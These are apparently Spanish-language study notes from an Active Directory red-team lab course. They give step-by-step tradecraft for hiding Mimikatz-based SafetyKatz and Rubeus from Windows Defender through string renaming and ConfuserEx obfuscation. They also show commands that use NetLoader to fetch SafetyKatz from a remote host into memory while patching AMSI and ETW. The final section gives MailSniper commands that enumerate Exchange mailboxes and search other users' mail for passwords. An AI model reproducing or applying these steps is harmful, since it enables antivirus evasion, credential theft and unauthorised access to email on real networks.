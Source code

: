 # Offensive .NET

Se puede usar para bypasear la deteccion de binarios por el Windows Defender.

Se utilizan tecnicas de ofuscacion o manipulacion de cadenas.

DefenderCheck identifica el codigo y las cadenas de un binario que Windows Defender puede bloquear o anular.

Offensive .NET - Tradecraft - AV bypass -String Manipulation

Abra el proyecto en Visual Studio.
• Presione "CTRL + H".
• Busque y reemplace la cadena "Credenciales" por "Credenciales" que puede usar con cualquier otra
cadena como reemplazo. (Asegúrese de que la cadena no esté presente en el código)
• Seleccione el alcance como "Solución completa".
• Presione el botón "Reemplazar todo".
• Construya y vuelva a verificar el binario con DefenderCheck.
• Repita los pasos anteriores si todavía hay detección

Para SafetyKatz seguimos los siguientes pasos:

- Descargue la última versión de Mimikatz y Out-CompressedDll.ps1
- Ejecute el script de PowerShell Out-CompressedDll.ps1 en el binario de Mimikatz y guarde el salida a un archivo.
- `Out-CompressedDll <Path to mimikatz.exe> >outputfilename.txt`
- Copia el valor de la variable "$ EncodedCompressedFile" del archivo de salida de arriba y reemplazar el valor de "compressedMimikatzString" variable en "Constants.cs" archivo de SafetyKatz
- Copie el tamaño de bytes del archivo de salida y reemplácelo en el archivo "Program.cs" en la línea 111 y 116.
- Compile y vuelva a verificar el binario con DefenderCheck.

Offensive .NET - Tradecraft - AV bypass - Obfuscation

Para Rubeus.exe, usamos ConfuserEx ([https://github.com/mkaring/ConfuserEx](https://github.com/mkaring/ConfuserEx)) para
ofuscar el binario

Inicie ConfuserEx
• En la pestaña Proyecto, seleccione el Directorio base donde se encuentra el archivo binario.
• En la pestaña Proyecto, seleccione el Archivo Binario que queremos ofuscar.
• En la pestaña Configuración agregue las reglas.
• En la pestaña Configuración, edite la regla y seleccione el ajuste preestablecido como "Normal".
• En la pestaña Proteger, haga clic en el botón proteger.

Offensive .NET - Tradecraft - Payload Delivery

Podemos usar NetLoader ([https://github.com/Flangvik/NetLoader](https://github.com/Flangvik/NetLoader)) para entregar nuestras cargas útiles binarias.

Se puede usar para cargar archivos binarios desde la ruta de archivo o URL y parchear AMSI y ETW mientras se ejecuta.

`C:\Users\Public\Loader.exe -path http://192.168.100.X/SafetyKatz.exe`

También tenemos AssemblyLoad.exe que se puede usar para cargar el Netloader en la memoria desde una URL que luego carga un binario

`C:\Users\Public\AssemblyLoad.exe http://192.168.100.X/Loader.exe -path http://192.168.100.X/SafetyKatz.exe`

**Abusing Trusts for Microsoft Products**

- Varios productos de Microsoft están muy bien integrados en un AD
ambiente.
- Productos como SQL Server y Exchange se integran con AD y, por lo tanto,
conviértase en parte de la confianza del dominio.

    Privilege Escalation – MS Exchange

    Exchange 2019 brinda muchas posibilidades de Priv Esc.

    Se dividen en dos categorias:

    -Varios grupos con muchos permisos Exchange : Exchange Servers, Exchange Trusted Subsystem, Exchange Windows Permissions

    -La capacidad de leer los buzones de correo de otros usuarios (debido a una configuración incorrecta permisos).

    Privilege Escalation – MS Exchange - Mailbox Permissions

    - Usaremos MailSniper ([https://github.com/dafthack/MailSniper](https://github.com/dafthack/MailSniper)) para
    enumerar y acceder a los buzones de correo.
    - Podemos enumerar todos los correos con el comando: `Get-GlobalAddressList -ExchHostname us-exchange -Verbose -UserName us\studentuser1 -Password <password>`
    - A continuación, echemos un vistazo a los buzones de correo donde nuestro usuario actual tiene acceso: `Invoke-OpenInboxFinder -EmailList C:\AD\Tools\emails.txt
    -ExchHostname us-exchange -Verbose`
    - Una vez hayamos identificado los correos, este comando busca entre los 100 mejores palabras clave como pass, creds : `Invoke-SelfSearch -Mailbox pawadmin@techcorp.local -ExchHostname us-exchange -OutputCsv .\mail.csv`